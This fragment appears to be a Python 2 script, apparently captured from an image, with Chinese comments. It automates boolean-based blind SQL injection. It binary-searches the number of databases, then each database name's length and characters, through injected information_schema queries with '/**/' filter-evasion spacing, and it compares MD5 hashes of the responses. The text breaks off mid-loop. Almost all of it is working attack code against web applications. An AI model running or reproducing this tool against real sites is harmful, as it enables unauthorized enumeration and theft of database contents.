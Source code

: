     low = 1
    high = 100
    while low <= high:  #循环结束后得到数据库个数
        mid = (low + high)/2;

        payload = "' and ((select count(distinct+table_schema) from information_schema.tables) > %d)--+" % mid
        # payload = ("%s" % aa).join(payload.split())
        payload = "/**/".join(payload.split())
        mid_url = url + payload
        mid_md5_html = get_md5_html(mid_url)

        if standard_md5 == mid_md5_html:
            low = mid + 1
        else:
            high = mid-1

        db_num = (low+high+1)/2
    print "The total number of database is: %d" % db_num
    for index in xrange(0,db_num):  #一次循环输出一个数据库名
        low = 1
        high = 30

        while low <= high:  #循环结束后得到数据库名的长度
            mid = (low + high)/2

            payload = "' and (length((select distinct table_schema from information_schema.tables limit %d,1)) > %d)--+" % (index,mid)
            # print payload
            payload = "/**/".join(payload.split())
            mid_url = url + payload
            mid_md5_html = get_md5_html(mid_url)

            if standard_md5 == mid_md5_html:
                low = mid + 1
            else:
                high = mid-1

            db_name_len = (low+high+1)/2
        # print "database name length:%d" % db_name_len
        print "\tdatabase name is: ",
        for x in xrange(1,db_name_len+1):   #一次for循环输出数据库名的一个字符
            low = 32
            high = 126
            while low <= high: #循环结束后得到数据库名的一个字符的ASCII码
                mid = (low + high)/2
                payload = "' and (select ascii(substr((select distinct table_schema from information_schema.tables limit %d,1), %d, 1)) > %d) --+" % (index,x,mid)
                # print payload
                payload = "/**/".join(payload.split())
                mid_url = url + payload
                mid_md5_html = get_md5_html(mid_url)
